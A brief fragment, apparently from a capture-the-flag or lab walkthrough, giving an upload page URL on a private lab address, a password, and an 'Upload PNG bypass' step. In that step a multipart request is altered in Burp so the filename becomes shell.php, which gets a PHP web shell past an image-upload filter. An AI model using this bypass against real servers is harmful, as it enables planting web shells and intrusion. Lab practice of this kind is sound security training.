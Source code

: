
```
http://10.10.61.101:1337/upload-cv00101011/index.php
password : zeamkish
```

Upload PNG bypass

```modified in burp file name from php.png to php

-----------------------------74159732824709433101406962779
Content-Disposition: form-data; name="file"; filename="shell.php"
```

